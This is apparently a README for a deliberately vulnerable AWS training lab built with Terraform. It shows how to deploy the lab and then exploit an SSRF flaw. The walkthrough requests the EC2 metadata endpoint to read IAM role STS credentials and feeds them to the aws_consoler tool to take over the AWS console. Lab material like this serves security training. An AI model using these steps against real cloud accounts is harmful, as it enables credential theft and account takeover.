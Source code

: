 # AWS Console Takeover Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the AWS Console Takeover vulnerability environment.

After building the environment with Terraform, The SSRF vulnerability can be used to obtain STS data on EC2 and then use the STS data to take over the AWS console.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/aws/elastic_computing_service/console_takeover/
```

Configure AWS Access Credentials

```shell
aws configure
```

> You can see the access key in the AWS [Console --> Security Credentials]

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

## Vulnerability Utilization

On EC2 with SSRF vulnerabilities, we can use SSRF to read STS information.

Read STS information

```shell
http://169.254.169.254/latest/meta-data/iam/security-credentials/huoxian_terraform_goat_role
```

![img](../../../images/1652434082.png)

Generate AWS console access links with the aws_consoler tool

```shell
apt install python3-pip
pip install aws-consoler
aws_consoler -R us-east-1 -a {Your_AccessKeyId} -s {Your_SecretAccessKey} -t {Your_Token}
```

Copy the generated link into your browser and open it to take over the AWS Service Console.

![img](../../../images/1652435065.png)

## Destroy the environment

```shell
terraform destroy
```
